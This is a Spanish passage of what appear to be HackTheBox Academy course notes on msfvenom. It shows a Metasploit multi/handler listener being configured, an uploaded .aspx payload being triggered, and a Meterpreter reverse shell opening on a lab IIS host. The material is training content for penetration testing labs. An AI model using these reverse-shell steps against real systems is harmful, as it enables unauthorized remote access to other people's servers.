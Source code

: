 ### **MSF - Configuración de Multi/Handler**

Introducción a MSFVENOM

```
xnoxos@htb[/htb]$ msfconsole -q msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set LHOST 10.10.14.5

LHOST => 10.10.14.5

msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337

```

---

# **Ejecutando la carga útil**

Ahora podemos activar el`.aspx`carga útil en el servicio web. Hacerlo cargará absolutamente nada visualmente hablando en la página, pero mirando hacia atrás a nuestro`multi/handler`Módulo, habríamos recibido una conexión. Debemos asegurarnos de que nuestro`.aspx`El archivo no contiene HTML, por lo que solo veremos una página web en blanco. Sin embargo, la carga útil se ejecuta en segundo plano de todos modos.

![](https://academy.hackthebox.com/storage/modules/39/S16_SS01.jpg)

### **MSF - Meterpreter Shell**

Introducción a MSFVENOM

```
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000

meterpreter > getuid

Server username: IIS APPPOOL\Web

meterpreter >

[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died

```